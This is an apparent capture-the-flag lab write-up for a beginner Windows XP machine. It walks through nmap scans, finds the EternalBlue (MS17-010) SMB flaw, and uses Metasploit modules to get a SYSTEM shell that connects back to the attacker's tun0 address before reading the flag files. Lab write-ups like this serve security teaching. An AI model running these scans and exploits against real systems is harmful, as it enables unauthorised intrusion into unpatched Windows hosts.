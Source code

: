 ```yaml
---
title: Legacy
published: true
layout: post
---
```


<br />

---------------
Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access. 

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/N8OadPorX0g?si=OmSRnS52h8Gtaj2u" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.4 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn
sudo nmap -sU 10.10.10.4 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn
```

![](/assets/Legacy/1.png)
<br />
<br />
<br />

The UDP scan didn't return anything useful.

<br />

There are **3 open ports**:
+ **135/tcp**
+ **139/tcp**
+ **445/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.4 -p 135,139,445 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```

![](/assets/Legacy/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **135/tcp Microsoft Windows RPC**
+ **139/tcp Microsoft Windows netbios-ssn**
+ **445/tcp Windows XP microsoft-ds**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.4 -p 135,139,445 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```

![](/assets/Legacy/3.png)

<br />
<br />
<br />

This last scan returned a lot of information, but there is a specific critical piece of information, this machine is vulnerable to CVE-2017-0143, also known as EternalBlue.

<br />

------

<br />
### Foothold

The foothold in this machine is very easy and similar to machine Blue, the only thing we need to know is that this machine is **vulnerable to EternalBlue**.

<br />

With this information let's search for a exploit for this vulnerability in **Metasploit**:
```bash
sudo msfdb run
search ms17_010
```

![](/assets/Legacy/4.png)
<br />
<br />
<br />

We can try the first exploit and configure it, as it's the one with the **best rank**:
```Metasploit
use 0
options
set rhosts 10.10.10.4
set lhost tun0
run
```

![](/assets/Legacy/5.png)
<br />
<br />
<br />

There is a problem, this exploit is **only compatible with x64 architectures**, so we can try the next exploit:
```Metasploit
search ms17_010
use 10
set rhosts 10.10.10.4
set lhost tun0
run
```

![](/assets/Legacy/6.png)
<br />
<br />
<br />

Great!! We have get the foothold as **NT AUTHORITY\SYSTEM**, which is similar to root in Linux systems. Now we only have to print our flags:
```bash
cat C:\\Documents\ and\ Settings\\john\\Desktop\\user.txt
cat C:\\Documents\ and\ Settings\\Administrator\\Desktop\\root.txt
```

![](/assets/Legacy/7.png)
<br />
<br />
<br />

